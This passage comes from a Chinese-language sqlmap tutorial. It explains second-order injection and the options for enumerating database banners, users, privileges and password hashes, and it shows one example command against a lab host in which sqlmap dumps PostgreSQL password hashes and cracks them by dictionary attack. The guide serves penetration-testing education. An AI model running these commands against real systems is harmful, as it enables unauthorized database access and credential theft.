 参数：`--second-order`

有些时候注入点输入的数据看返回结果的时候并不是当前的页面，而是另外的一个页面，这时候就需要你指定到哪个页面获取响应判断真假。--second-order后门跟一个判断页面的URL地址。

### 8、列数据

#### 8.1 标志

参数：`-b,--banner`

大多数的数据库系统都有一个函数可以返回数据库的版本号，通常这个函数是version()或者变量@@version这主要取决与是什么数据库。

#### 8.2 用户

参数：`-current-user`

在大多数据库中可以获取到管理数据的用户。

#### 8.3 当前数据库

参数：`--current-db`

返还当前连接的数据库。

#### 8.4 当前用户是否为管理用

参数：`--is-dba`

判断当前的用户是否为管理，是的话会返回True。

#### 8.5 列数据库管理用户

参数：`--users`

当前用户有权限读取包含所有用户的表的权限时，就可以列出所有管理用户。

#### 8.6 列出并破解数据库用户的hash

参数：`--passwords`

当前用户有权限读取包含用户密码权限时，sqlmap会现列举出用户，然后列出hash，并尝试破解。

例子：

```bash
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --passwords -v 1
[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt]
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
    password hash: md5d7d880f96044b72d0bba108ace96d1e4
    clear-text password: testpass
[*] testuser [1]:
    password hash: md599e5ea7a6f7c3269995cba3927fd0093
    clear-text password: testpass
```
